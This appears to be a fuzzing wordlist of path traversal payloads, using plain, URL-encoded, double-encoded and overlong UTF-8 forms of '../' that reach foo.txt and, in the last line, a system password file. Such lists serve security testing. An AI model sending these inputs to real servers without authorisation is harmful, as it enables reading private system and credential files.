 ../../../foo.txt
..%2f..%2f..%2ffoo.txt
%2e%2e/%2e%2e/%2e%2e/foo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
..%252f..%252f..%252ffoo.txt
%252e%252e/%252e%252e/%252e%252e/foo.txt
%252e%252e%252f%252e%252e%252f%252e%252e%252ffoo.txt
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cfoo.txt
%C0%AE%C0%AE%C0%AF%C0%AE%C0%AE%C0%AFetc%C0%AFpassw